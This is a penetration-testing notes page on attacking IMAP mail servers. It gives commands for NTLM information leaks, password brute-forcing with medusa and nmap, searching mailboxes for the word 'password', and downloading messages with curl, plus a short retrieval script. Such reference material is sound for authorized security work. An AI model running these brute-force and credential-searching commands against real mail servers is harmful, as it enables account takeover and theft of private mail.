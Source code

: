 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - imap
  - network-mapper
---
```

# IMAP

## 01 - Information Disclosure

### 1.1 - Manual

```
$ telnet <IP> 143
* OK The Microsoft Exchange IMAP4 service is ready.
>> a1 AUTHENTICATE NTLM
+
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```

### 2.2 - Network Mapper

```
$ nmap -p 143,993 --script imap-ntlm-info <IP>
```

## 02 - Brute Force

### 2.1 - Hydra

```
$ hydra
```

### 2.2 - Medusa

`LOGIN` authentication with domain via username 

```
$ medusa -M imap -m AUTH:LOGIN  -h <IP> -u '<domain_name>\\<username>' -p <password>
```

NTLM authentication with domain option.

```
$ medusa -M imap -m AUTH:NTLM -m DOMAIN:<DOMAIN_NAME> -h <IP> -u <username> -p <password>
```

NTLM authentication with domain via username.

```
$ medusa -M imap -m AUTH:NTLM -h <IP> -u <username>@<domain.tld> -p <password>
```

### 2.3 - Network Mapper

```
$ nmap -p 143,993 --script imap-brute <IP>
```

## 03 - Listing Mailboxes

Listing mailboxes with an imap command `LIST "" "*"`.

```
$ curl -k 'imaps://<IP>/' --user <username>:<password>
```

## 04 - Listing Messages in Inboxes

Listing messages in a Inbox (imap command `SELECT INBOX` and then `SEARCH ALL`).

```
$ curl -k 'imaps://<IP>/INBOX?ALL' --user <username>:<password>
```

## 05 - Search Credentials

Searching keywords related to sensitive credentials in the `Drafts` or other `Mailboxes`.

```
$ curl -k 'imaps://<IP>/Drafts?TEXT password' --user <username>:<password>
```

## 06 - Download Messages

### 6.1 - Drafts

Downloading a message (imap command `SELECT Drafts` and then `FETCH 1 BODY[]`).

```
$ curl -k 'imaps://<IP>/Drafts;MAILINDEX=1' --user <username>:<password>
```

#### 6.1.1 - SQL Format Like

We can use the `UID` (unique id) to obtain the messages, yet this one needed to be manually formatted like a SQL Query.

```
$ curl -k 'imaps://<IP>/INBOX' -X 'UID SEARCH ALL' --user <username>:<password>

$ curl -k 'imaps://<IP>/INBOX;UID=1' --user <username>:<password>
```

#### 6.1.2 -  Automated

Another method that can work is by sending parts of messages like subject and sender for the first 5 messages for example.

```
$ curl -k 'imaps://<IP>/INBOX' -X 'FETCH 1:5 BODY[HEADER.FIELDS (SUBJECT FROM)]' --user <username>:<password> -v 2>&1 | grep '^<'
```

```bash
#!/bin/bash
for m in {1..5}; do  
	echo $m
	curl "imap://$1/INBOX;MAILINDEX=$m;SECTION=HEADER.FIELDS%20(SUBJECT%20FROM)" --user $2:$3
done
```

The syntax as it follows.

```
$ ./imap-retrieve-messages.sh <IP> <username> <password>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Mail Server/IMAP]]

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)